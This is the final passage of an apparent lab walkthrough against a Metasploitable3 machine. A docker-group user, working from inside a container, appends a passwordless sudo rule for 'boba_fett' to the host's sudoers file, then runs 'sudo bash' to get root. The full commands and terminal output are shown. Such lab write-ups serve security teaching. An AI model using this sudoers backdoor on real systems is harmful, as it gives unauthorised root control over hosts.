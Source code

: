 To edit the `sudoers` file, we will use the `echo` to append the following information to enable user `boba_fett` issue sudo commands without any password: `echo "boba_fett ALL=(ALL) NOPASSWD: ALL" >> sudoers`. We can confirm this has been appended to the file by reading the file using `cat sudoers`.

```
root@5918a86e9463:~# echo "boba_fett ALL=(ALL) NOPASSWD: ALL" >> sudoers
root@5918a86e9463:~# cat sudoers
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root    ALL=(ALL:ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "#include" directives:

#includedir /etc/sudoers.d
boba_fett ALL=(ALL) NOPASSWD: ALL
root@5918a86e9463:~# 
```

With this done, we can exit the container and simply issue `sudo bash` on the host victim to gain a root shell

```
root@5918a86e9463:~# exit
exit
boba_fett@metasploitable3-ub1404:~$ 
boba_fett@metasploitable3-ub1404:~$ id
uid=1121(boba_fett) gid=100(users) groups=100(users),999(docker)
boba_fett@metasploitable3-ub1404:~$ whoami
boba_fett
boba_fett@metasploitable3-ub1404:~$ sudo bash
root@metasploitable3-ub1404:~# id
uid=0(root) gid=0(root) groups=0(root)
root@metasploitable3-ub1404:~# whoami
root
root@metasploitable3-ub1404:~# hostname
metasploitable3-ub1404
root@metasploitable3-ub1404:~# 

```

So, we finally have a shell as root. Hope you enjoyed reading this walkthrough.

